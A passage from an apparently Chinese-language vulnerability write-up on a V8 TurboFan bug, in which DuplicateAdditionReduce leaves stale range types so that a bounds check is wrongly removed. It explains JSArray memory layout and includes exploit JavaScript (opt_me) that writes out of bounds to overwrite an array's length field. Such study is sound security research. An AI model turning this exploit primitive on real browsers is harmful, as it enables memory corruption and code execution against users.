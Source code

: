 ![image-20220617163523652](/image-20220617163523652.png)

这样到达Simplified lowering阶段，在CheckBounds Elimination时，因为arr的length为4所以CheckBounds Node将会被消除：

![image-20220617182300800](/image-20220617182300800.png)

但是在Typer和Simplyfied lowering之间还有一个DuplicateAdditionReduce，这个优化会将``z = z + 1 + 1``优化为`z = z + 2`且不会重新计算Node的Type，这将导致优化后计算出的z的Type实际上应该是Range(0,4)，在这个Type下是不能消除CheckBounds的，但是CheckBounds确实是已经被消除，造成的后果就是用户可以拿着值为4的index越界访问arr这个数组。

从运行结果也可以证实这个结论：

```
./d8 --allow-natives-syntax test_2.js
-1.1885946300594787e+148
```

那么我们该怎么利用这个漏洞呢？

## 漏洞利用

到现在为止已经可以完成对于一个数组（fixed array）的越界访问，而下一步需要做的是通过这一次越界访问的机会获得更加任意的数组越界访问，因为使用IEEE 754精度丢失进行越界访问还是比较麻烦和受限的。

### 获得更加任意地数组越界访问

而为了实现更任意的越界访问，第一个想到的方法就是修改一个数组的length属性。在之前学习V8中对象内存布局的时候了解过**JSArray是分成两部分的：一部分是JSArray的结构体其中保存了Array的length，map，back store，而第二部分也就是数组中的element是被保存在一个fixed array中**。而我们拥有的正是对于fixed array的越界访问，为了能修改到array的length，必须在这个fixed array之后安排一个JSArray的结构体。这个时候又不得不讲一下JSArray构造方法和其内存布局之间的关系：

- `var array_1 = new Array(1.1, 2.2, 3.3);`：使用这种new的方法来创建Array，还分成两种情况：
  - 如果是在未JIT的情况下，在内存中，生成JSArray的结构体是位于fixed array之前。
  - 在JIT之后，在内存中，生成的JSArray结构体位于fiexd array之后。
- `arr2 = Array.of(42.1,42.0,42.0);`：而使用`of()`方法创建Array，在内存中，JSArray结构体始终位于fixed array之前。

为了在越界的fixed array之后安排一个JSArray结构体，可以选择使用第一种Array的创建方式，这样在经过JIT之后，fixed array之后恰好放置了指向它的JSArray结构体。

![image-20220620105813837](/image-20220620105813837.png)

从上面的图中可以看到具体的内存排布，同时也告诉我们如果想要覆盖到JSArray中的length属性所需要的index = 6，而之前我们得到的index只有4是不足以访问到length属性的。**这个问题我们可以通过增加“+ 1”的数量来解决**，最终通过下面这一段exp获得对于数组的任意（也不是任意）越界访问：

```javascript
function opt_me(choice)
{
    var array_1 = new Array(1.1, 2.2, 3.3);
    //Range(9007199254740987, 9007199254740992)
    var x = (choice == "opt") ? 9007199254740992 : 9007199254740987;
    //Range(9007199254740990, 9007199254740992) actually Range(9007199254740990, 9007199254740996)
    var y = x + 1 + 1 + 1;
    //Range(0, 2) acctually Range(0, 6)
    var z = y - (Number.MAX_SAFE_INTEGER - 1);
    //choice == "opt" z == 6
    array_1[z] = U32ToF64([0,0x1000]);
    return array_1;
}
```
